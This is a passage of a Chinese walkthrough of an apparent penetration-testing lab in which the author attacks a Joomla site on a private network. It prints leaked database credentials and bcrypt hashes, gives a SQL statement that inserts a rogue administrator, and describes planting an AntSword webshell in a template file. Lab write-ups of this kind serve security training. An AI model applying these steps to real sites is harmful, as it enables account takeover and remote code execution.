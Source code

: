 后台弱口令登录失败,跑一下爆破脚本

继续找一下nday,尝试了一下,没啥进展
### 数据库凭据泄露
回到目录扫描
御剑扫一下
![](https://img.l1uyun.one/红日靶场3_image_5.png)
phpinfo
![](https://img.l1uyun.one/红日靶场3_image_6.png)
电脑卡起来了,御剑崩了,换成dirsearch,扫到了下面这个文件
`http://192.168.3.3/configuration.php~`
里面有数据库的账号密码
```bash
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'testuser';
	public $password = 'cvcvgjASD!@';
	public $db = 'joomla';
	public $dbprefix = 'am2zu_';
```
navicat连一下
![](https://img.l1uyun.one/红日靶场3_image_7.png)
```bash
admin
$2y$10$N/Yv/9rzxyq.z0gLTT5og.pj3FFAP8Sq2PcBgsMX/Qnc2671qQkHy

administrator
$2y$10$t1RelJijihpPhL8LARC9JuM/AWrVR.nto/XycrybdRbk8IEg6Dze2
```
bcrypt加密
### sql添加管理员
没跑出来,[添加一个新用户算了](https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn)
```sql
INSERT INTO `am2zu_users`
   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2',
    'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`)
VALUES (LAST_INSERT_ID(),'8');
```
然后使用admin2:secret登录进入后台
![](https://img.l1uyun.one/红日靶场3_image_8.png)
### 后台模板getshell
上传webshell,这里生成的是蚁剑的
![|500](https://img.l1uyun.one/红日靶场3_image_9.png)
修改error.php,并保存
![](https://img.l1uyun.one/红日靶场3_image_10.png)
路径是`http://192.168.3.3/templates/beez3/error.php`
### antsword
连上去了
![](https://img.l1uyun.one/红日靶场3_image_11.png)
加载插件之后执行命令
![](https://img.l1uyun.one/红日靶场3_image_12.png)
存在内网ip 192.168.93.120
